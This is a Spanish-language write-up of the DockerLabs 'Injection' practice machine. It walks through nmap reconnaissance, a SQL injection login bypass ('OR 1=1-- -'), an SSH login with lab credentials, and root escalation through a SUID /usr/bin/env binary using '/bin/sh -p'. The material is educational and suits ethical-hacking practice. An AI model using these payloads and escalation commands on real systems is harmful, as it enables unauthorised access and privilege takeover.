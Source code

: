 ```yaml
---
title: Injection
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-11-29
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-injection/injection_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - sqli
  - suid
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.051 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.051/0.051/0.051/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ sudo nmap -sCV -p22,80 -oN nmap2 127.17.0.2
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis

Lo único que encuentro en el servicio HTTP abierto es un panel de inicio de sesión.

![](/assets/img/dockerlabs-writeup-injection/injection1_1.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_2.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_3.png)

---
## Vulnerability Exploitation

El título de la máquina da una pista bastante evidente.

Parece que el panel es vulnerable a SQL Injection.

![](/assets/img/dockerlabs-writeup-injection/injection1_4.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_5.png)

Realizando pruebas y mirando los errores en las respuestas del panel, identifico los caracteres especiales necesarios para bypassar el panel de login.

![](/assets/img/dockerlabs-writeup-injection/injection1_7.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_8.png)

Como se puede ver, aplicando los caracteres ```'-- -``` el error 'Syntax error or access violation' ya no aparece.

![](/assets/img/dockerlabs-writeup-injection/injection1_9.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_3.png)

Si completo la query de esta forma:
```sql
'OR 1=1-- -
```
Soy capaz de bypassear la página de inicio de sesión, ya que al agregar ```OR 1=1``` fuerzo la condición de la consulta a ser siempre verdadera (1 siempre es igual a 1), permitiendo el acceso sin necesidad de credenciales válidas.

![](/assets/img/dockerlabs-writeup-injection/injection1_11.png)

![](/assets/img/dockerlabs-writeup-injection/injection1_12.png)

Ahora tengo credenciales para conectarme por SSH, 'dylan:KJSDFG789FGSDF78'.

```terminal
/home/kali/Documents/dockerlabs/injection:-$ ssh dylan@127.17.0.2
dylan@127.17.0.2's password: KJSDFG789FGSDF78

dylan@kali:~$ whoami
dylan
```

---
## Privilege Escalation

```terminal
dylan@kali:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
```
```terminal
dylan@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

Para identificar posibles binarios SUID en el sistema, utilicé el siguiente comando:

```terminal
dylan@kali:~$ find / -perm -4000 2>/dev/null
```

![](/assets/img/dockerlabs-writeup-injection/injection2_1.png)


En la lista de resultados, descubrí que el binario /usr/bin/env estaba presente. Al consultarlo en GTFOBins, confirmé que este binario puede ser explotado para obtener una shell con privilegios elevados.

<https://gtfobins.github.io/gtfobins/env/>

Al ejecutar '/bin/sh' con la opción '-p', es posible iniciar una shell con privilegios elevados, ya que la opción '-p' conserva los permisos del binario SUID.

Esta técnica me permitió acceder a una shell con privilegios de root.

```terminal
dylan@kali:~$ /usr/bin/env /bin/sh -p
# id
uid=1000(dylan) gid=1000(dylan) euid=0(root) groups=1000(dylan)
```